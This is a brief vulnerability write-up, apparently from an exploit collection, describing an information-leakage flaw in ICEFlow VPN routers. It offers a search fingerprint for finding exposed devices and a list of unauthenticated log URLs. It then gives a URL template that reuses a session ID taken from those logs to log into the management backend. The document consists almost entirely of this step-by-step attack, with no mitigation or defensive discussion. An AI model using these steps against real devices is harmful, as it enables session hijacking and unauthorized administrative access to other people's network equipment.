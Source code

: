 # ICEFlow VPN log information leakage vulnerability

## Vulnerability Description

ICEFlow VPN has information leakage vulnerabilities, and attackers can view sensitive data in the log to further attack the system.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ICEFlow VPN</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="ICEFLOW VPN Router"</span>

## Vulnerability reappears

Accessible logs Url

```plain
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133204051.png)



After obtaining the session based on the log information, you can use real-time login to the system management background:

```plain
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

